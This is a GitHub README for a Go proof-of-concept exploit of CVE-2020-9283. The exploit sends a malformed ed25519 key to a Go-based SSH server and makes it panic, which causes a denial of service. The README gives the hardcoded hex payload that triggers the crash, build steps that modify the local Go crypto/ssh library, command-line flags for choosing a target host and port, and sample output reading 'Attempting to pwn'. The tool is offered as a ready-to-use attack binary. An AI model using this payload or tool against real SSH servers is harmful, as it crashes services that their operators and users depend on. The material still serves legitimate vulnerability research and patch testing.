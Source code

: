 # CVE-2020-9283

Exploit for CVE-2020-9283 based on Go 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/brompwnie](https://github.com/brompwnie) |
| Url      | [https://github.com/brompwnie/CVE-2020-9283](https://github.com/brompwnie/CVE-2020-9283)                                               |
| Stars    | 4                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* crypto* cve-2020-9283* exploit* go* poc* ssh* tool

</details>

## Readme

# Exploit for CVE-2020-9283  

This project is inspired by the original POC found here github.com/mark-adams/exploits/CVE-2020-9283.
I was curious as to how the Go SSH library was implemented so decided to implement the PoC using go.

A short writeup can be found here https://dev.to/brompwnie/modifying-go-s-crypto-ssh-library-for-cve-2020-9283-26a7

# What does this do?

This invokes a panic on a Go based SSH server which may lead to a DoS. 

# Installation

I've released binaries in the Release section however you can rebuild your own using the source code attached.

## Building the sources
I decided to modify the Go crypto library directly on my system to understand how it works, this is not ideal and probably not the best way to do this but it works ;) If you want to rebuild using GO modules, replace the contents of the Crypto/ssh files client_auth.go, handshake.go, transport.go on your local system with the ".bak" files located here. These modified files contain verbose debugging output and a hardcoded payload of "0000000b7373682d65643235353139000000156161612d616161612d61612d6161612d6161616161" which triggers the panic.

# Usage
You will see lots of debugging output and "errors", this is expected. If your target has panic'd, you should see errors associated to "bad key lengths". If you want to test this locally, use the vulnerable code that can be found here github.com/mark-adams/exploits/CVE-2020-9283

```
# ./CVE-2020-9283 -h
Usage of ./CVE-2020-9283:
  -host string
        IP address of SSH host to target (default "localhost")
  -key string
        ssh-ed25519 private key to use (default "thekey")
  -port string
        Port to target (default "22")

# ./CVE-2020-9283 -port=2022
./CVE-2020-9283 -port=2022
+] Sploit for CVE-2020-9283
[+] Attempting to pwn: localhost:2022
[!] Attempting: cMSG_USERAUTH_REQUEST
[+] userAuthRequestMsg User:  notme
[+] userAuthRequestMsg Service:  ssh-connection
[ERROR] ssh: handshake failed: EOF
[+] This should have invoked a panic on the SSH target i.e 'panic: ed25519: bad public key length'

```



## Get the content

```
git clone https://github.com/brompwnie/CVE-2020-9283
cd CVE-2020-9283
```

{% embed url="https://github.com/brompwnie/CVE-2020-9283" %}

<figure><img src="https://avatars.githubusercontent.com/u/8638589?v=4" alt=""><figcaption><p>brompwnie</p></figcaption></figure>
